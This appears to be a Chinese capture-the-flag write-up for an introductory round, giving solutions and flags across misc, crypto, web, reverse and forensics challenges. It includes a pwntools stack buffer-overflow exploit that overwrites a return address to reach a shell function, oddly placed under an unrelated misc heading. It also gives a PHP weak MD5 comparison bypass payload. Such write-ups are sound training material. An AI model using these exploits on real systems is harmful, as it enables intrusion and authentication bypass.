









SLsec第一回合 wp

# MISC部分

## Base++

Cyberchef from base85一键梭哈SLsec\{ONSGSYLTNFRGI4LJMJRGE\}

## Base的其他成员

Base91加密，找个工具一键梭哈SLsec\{Hurry up and make progress!\}

## Easy凯撒

偏移量7，SLsec\{bobououbbuoubkkaslsa\}

<!-- more -->

## Ezbase32

RT，cyberchef一键梭哈。SLsec\{zhe\_ge\_shi\_base32\}Q

## Ezbase64

同理。SLsec\{hahahahahahahah\}

## EZ盲文

类型：英语 计算机 SLsec\{Zhe\_Ge\_Shi\_Mang\_Wen\}

## xxxxxxxxxx

```python
from pwn import *
context(log_level=’debug’,arch=’amd64’, os=’linux’)
p=process(‘./warmup_csaw_2016’)
#p=remote(‘node5.buuoj.cn’,26098)
payload = b’A’*72
shell_address = 0x40060D
payload += p64(shell_address)
p.sendline(payload)
p.interactive()
```

RT，找个工具即可解密。SLsec\{good!nice!\}

## Zero

零宽字符隐写。找工具解密。SLsec\{zero\_wide\_encode\}

## 不会就百度

看hint，是RC4加密。用cyberchef解密。

配置为：passphrase和input format都选hex，即可解密。SLsec\{c2RiYWlzZm8gb2lib2RmYncgYnNi\}

## 乱码

字频统计。用python写个脚本。

#注：为了方便，将文件名改为了aaaa.txt

运行，即可得到flag。SLsec\{8J9zhX3qR14a2WfQxwT0vY7N6yZj\}

## **你了解中国二维码吗？**

汉信码。找个工具解密即可。SLsec\{5Y2t5nJ95olP5Yzu5Yd677lO\}

## **你会用XLS工作表吗？**

缩小，往右下角挪，即可找到flag。SLsec\{ABCD686H\}

## **你看文章了吗？**

在第一个文章底部。SLsec\{4df83f015d74bc7c15ebd45b4b6edf33ed1f2db8\}

## **你知道base64吗？**

同ez\_base64.

SLsec\{aaa\_CTF\_YYDS!\}

## **你键盘哪买的？**

照着文件内容在键盘上比划一下就能得到字符串。SLsec\{OCLSPTD\}

## **毁灭者8000**

Rot8000编码。SLsec\{5L2g5piv5bCB6Zet55qEduasoeWTpuS8gem5hX\}

## **熊出没**

熊曰加密。SLsec\{ozybLJ9wqTMypvRk\}

## 看看你的

Ps拉回来。

SLsec\{Congratulations\_on\_seeing\_it\}

## **看破一切黑大帅**

未知格式。Winhex看看文件头，是504B0304，是zip压缩包。重命名后解压，得到一张图片。再用winhex查看内容，发现flag在文件末。SLsec\{Rq0AebQhQaHSMmTsnKpodxnRAcQFg9\}

## **破碎的二维码**

Ps拼一下即可得到完整二维码，扫描即可得到flag。SLsec\{2r\_Wei\_Ma\_pin\_j1e\}

## **社会主义核心价值观编码**

RT，找个工具解密即可。SLsec\{zhe\_g1\_sh1\_she\_hui\_zhu\_yi\_bian\_ma!!!!\}

## **第一道题解我！**

没啥说的。

# CRYPTO部分

## **RSA**

已知n、d、c、e型。Python写个脚本一键梭哈。



flag\{20d6e2da95dcc1fa5f5432a436c4be18\}

## XOR而已

异或加密。写个脚本逆向一下即可。

SLsec\{X0R\_and\_python\_1s\_fun!!!\}

## Ezbase

两个base64。base解出来是一个表，提示basebase需要用到这个新表解密。Cyberchef套用一下即可。SLsec\{H3ll0\_CTF3r\_w3lc0Me\_t0\_pdsu\}

## **天灵灵地宁宁**

莫斯密码。解密一下即可。（柚子厨蒸鹅心）SLsec\{CIALLO\}（为什么不是0d000721）

## **小兔子爱吃胡萝卜**

Rabbit加密。密钥是carrot。SLsec\{R4bb1t\_1s\_v4ry\_Cute\}

# WEB部分

## **Robots’ Treasure**

禁止爬虫访问，暗示存在robots.txt。直接访问。发现有两个路径禁止爬虫访问。直接访问hidden目录，得到flag。SLsec\{well\_done\_spider\}

## Web1

查看源代码即可获得flag。SLsec\{Welcome\_T0\_SLsec\_Studio!\}

## Web2

Payload：http://172.18.60.22:32982/?a=pdsu&b=SLsec

SLsec\{congratulations\_you\_solved\_it\_NICE!!\}

## **破解密码的迷雾**

给出了php源码。Name和password的Md5之间存在弱比较。Name需要get，password需要post。Burp？启动！

构造payload

url：http://172.18.60.22:32983/?name=QNKCDZO

请求头：

发送，得到flag。SLsec\{md5\_weakness\_and\_regex\_bypass\}

# REVERSE部分

## **要组一辈子网安啊!!!**

还在GO!     没啥说的。

## Babyre

IDA打开，f5一下，得到flag。SLsec\{1t is just 1ike a baby,ri9ht?\}

## Ez签到

IDA打开，直接得到flag。SLsec\{RE\_Welcome\_you!\}

## RE0

同Ez签到。SLsec\{this\_Is\_a\_EaSyRe\}

## Ezupx

题目提示upx加壳。找个脱壳软件脱一下壳，然后用ida打开。翻找一下，发现byte\_140022A0这个东西有猫腻。双击查看一下，是一些十六进制数字，猜测与ascii码有关。

写个python脚本翻译一下。



得到flag。将dIDAR改成SLsec即可。SLsec\{Wow!Y0u\_kn0w\_4\_l1ttl3\_0f\_UPX!\}

## Ida?

程序丢进ida。Main函数指向了main\_0函数。进去，看不懂，f5一下。

Str2这个变量中的字符串会经过这样的操作。大致意思是：遍历str2的内容，如果发现“o”，则替换为“0”。

```c
sub_14001128F("%20s", Str1);
```

这个语句限制了输入的变量str1中字符串的长度为20个字符以内。

```c
v5 = j_strlen(Str2);
```

这个语句描述了str2变量中字符串的长度。

这一个代码块，将输入的str1的内容与str2的内容进行对比，如果相同则提示正确，反之错误。那么，接下来我们只需知道str2这个字符串变量的内容是什么即可得到flag。

```asm
.data:000000014001C000 Str2            db '{hello_world}',0
```

这里定义了str2变量的内容，为’\{hello\_world\}’。按照前面分析的逻辑，我们确信flag为’\{hell0\_w0rld\}’。接下来进行验证。

命令行打开该程序，将’\{hell0\_w0rld\}‘输入，提示正确，我们获得了flag。SLsec\{hell0\_w0rld\}

# FORENSICS部分

## **这是哪里？**

图片下载下来，看一下详细信息，发现有一个经纬度坐标。

我们将度分秒转换成度，得到经度：118.5295277500°  纬度：24.7494277778°。

然后用地图软件的api，将经纬度输入进去，得到图片拍摄位置在福建省晋江市。

Flag为SLsec\{FuJianSheng\_JinJiangShi\}

## **君の名は**

谷歌搜图一下，能找到相似图片。图片摄于须贺神社。浏览一下给出的图片，找到了被打码的内容，是野菜山下商店。因此flag为：SLsec\{野菜山下商店\}
